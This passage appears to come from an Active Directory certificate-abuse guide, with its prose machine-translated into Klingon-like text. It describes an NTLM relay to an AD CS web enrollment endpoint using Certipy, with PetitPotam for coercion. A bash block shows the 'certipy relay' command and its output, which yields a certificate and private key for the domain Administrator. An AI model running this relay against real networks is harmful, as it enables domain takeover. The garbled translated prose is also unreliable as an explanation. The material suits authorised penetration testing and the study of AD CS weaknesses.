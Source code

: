 Certipy jImejDaq certificate request Hoch vItlhutlh template `Machine` pe'vam `User` DaH jImej. vaj template vItlhutlh `-template` parameter vIleghlaH.

[PetitPotam](https://github.com/ly4k/PetitPotam) qet technique vItlhutlh authentication jImej. Domain controllers vaj vItlhutlh `-template DomainController` DaH vIleghlaH.
```bash
certipy relay -ca ca.corp.local
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
[*] Got certificate with UPN 'Administrator@corp.local'
[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
## Qa'vIn QaD - ESC9 <a href="#5485" id="5485"></a>

### Qap
